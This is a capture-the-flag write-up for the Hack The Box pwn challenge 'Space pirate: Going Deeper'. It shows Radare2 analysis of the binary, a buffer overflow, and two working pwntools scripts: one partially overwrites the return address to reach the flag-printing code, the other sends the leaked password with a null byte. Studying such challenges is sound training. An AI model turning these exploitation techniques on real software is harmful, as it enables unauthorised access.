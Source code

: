 # Space pirate: Going Deeper
Now we're on to the second challenge in the "pwn" category. 

## Checking out the binary
Let's start the program first and see what we're dealing with.  
  
![Intro Screen](img/going_deeper_intro.png)

Both option 1. and 2. request some kind of authentication from us, that we can't provide.
If just enter anything we get an error message and the program terminates  
  
![Auth Fail](img/going_deeper_auth_fail.png)  

Maybe the password is just a string that's saved in the binary itself. Let's check with
```bash
cjreek@kali:~$ strings ./sp_going_deeper
```
We find a pretty suspicious string that might be the password we're looking for:
> ...  
> [\*] Username:  
> [!] Exiting..  
> **DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft**  
> %s[+] Welcome admin! The secret message is:   
> cat flag*  
> %s[-] Authentication failed!  
> ...  

![Fail and Segfault](img/going_deeper_auth_segfault.png)  
When we try, we not only get denied, but it seems like the password is already too big for the internal buffer and causes a buffer overflow with a resulting segmentation fault.

## Debugging and analyzing
Let's load up the binary in Radare2 and let's see what we can find there.
```bash
cjreek@kali:~$ r2 -d ./sp_going_deeper
```
First we analyze the binary
```
[0x00400b47]> aaa
```
Let's see what functions there are:
```lua
[0x00400b47]> afl
0x004007a0    1 43           entry0
0x004007e0    4 42   -> 37   sym.deregister_tm_clones
0x00400810    4 58   -> 55   sym.register_tm_clones
0x00400850    3 34   -> 29   sym.__do_global_dtors_aux
0x00400880    1 7            entry.init0
0x00400c10    1 2            sym.__libc_csu_fini
0x00400c14    1 9            sym._fini
0x004009e9   18 350          sym.admin_panel
0x004008dd    1 191          sym.banner
0x00400750    1 6            sym.imp.time
0x00400740    1 6            sym.imp.srand
0x00400790    1 6            sym.imp.rand
0x004006f0    1 6            sym.imp.puts
0x00400ba0    4 101          sym.__libc_csu_init
0x004007d0    1 2            sym._dl_relocate_static_pie
0x00400b47    1 84           main
0x0040099c    1 77           sym.setup
0x00400760    1 6            sym.imp.setvbuf
0x00400720    1 6            sym.imp.alarm
0x00400887    1 86           sym.read_num
0x00400730    1 6            sym.imp.read
0x00400770    1 6            sym.imp.strtoul
0x004006b8    3 23           sym._init
0x004006e0    1 6            sym.imp.strncmp
0x00400700    1 6            sym.imp.system
0x00400710    1 6            sym.imp.printf
0x00400780    1 6            sym.imp.exit
```
It's time to switch to visual mode
```
[0x00400b47]> V
```
and navigate to the debugging view by pressing ``p`` twice  
Now we navigate to the ``main`` function by opening the command line with ``Shift+:`` and then
```
:> s main
```
We immediately see a call to ``sym.admin_panel`` where the code of the menu options seem to be contained. Let's go there with ``s sym.admin_panel``
By following both the 1. and 2. options  
  
![Menu Assembly](img/going_deeper_menu.png)  
  
we finally end up at the code that reads and checks our password input  
  
![Password Check](img/going_deeper_pw_check.png)

If we take a look at the code we can see 3 potential ways to get to the flag:
1. We change the the value of ``c`` from 3 to 0x1337beef
2. We override the return address to jump right to the code that prints the flag
3. We pass the correct password as input

Let's overflow the buffer and see how the stack looks before and after the overflow, to see what is and is not possible.
We see that ``read()`` reads up to 57 bytes from stdin. Let's put a breakpoint right before and after the call to ``read()`` to look at the stack before and after we overflow the buffer:
```
:> db 0x00400aba
:> db 0x00400abf
```
restart the program with the command ``doo`` and hit ``F9`` to continue execution.  
Select either 1. or 2. in the menu. We hit our first breakpoint and we can take a look at our stack:  
  
![Stack before](img/going_deeper_stack_before.png)  
  
We can see the three values (``a``, ``b`` and ``c``) that are checked before the password itself is checked (purple) and we can discover the return address (0x400b94) of ``admin_panel`` (red)

 Let's hit F9 to continue execution and enter the maximum amount of characters (57)
````
[*] Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````
Now we should hit the 2nd breakpoint. Let's look at the stack again:  
  
![Stack after](img/going_deeper_stack_after.png)
  
As we can see ``a``, ``b`` and ``c`` are untouched by the buffer overflow. So there is at least no direct way to change those values and get access to the flag that way.  
But the return address gets overwritten by the buffer overflow - or at least the least significant byte of the return address.
That should be good enough though, because the code printing the flag (0x00400b**12**) is not too far away from the original return address (0x400b**94**)

## Writing the exploit
So now we are ready to write our exploit

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send payload to jump to the code printing the flag at 0x00400b12
payload = b"A"*56 # put anything for the first 56/57 bytes
payload += b"\x12" # change one byte of the return address to point to the system() call printing the flag
r.sendline(payload)
r.interactive()
````

Now if we execute that script we get the flag:

> [+] Starting local process './sp_going_deeper': pid 1735681  
> [*] Switching to interactive mode  
>  
>  [-] Authentication failed!
>  
> [!] For security reasons, you are logged out..  
>  
> HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $   

## An alternative way
So what about passing the right password to the programm so it prints the flag voluntarily?  
We tried that already at the beginning when we found the password with the ``strings`` tool, but it didn't work.
But why did it not work? It's the same password the programm is checking for in the code:  
  
![Strncmp](img/going_deeper_strncmp.png)  
  
There is a catch. The password "DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft" is 51 characters long, but strncmp is told to compare 52 characters.
The 52. character of the string constant the code is comparing our input to is a null byte (\x00) because c-strings are terminated with a null byte.
The 52. character of our input is actually a new line character (\n or \x0a). So that's why the comparison fails.
But there is nothing preventing us from sending a null byte right after the password with pwntools.
So let's try if that works:

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send password with trailing null byte
payload = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00'
r.sendline(payload)
r.interactive()
````

And for a fact it actually works as well:
> [+] Starting local process './sp_going_deeper': pid 1740782  
> [*] Switching to interactive mode  
>   
> [+] Welcome admin! The secret message is: HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $  
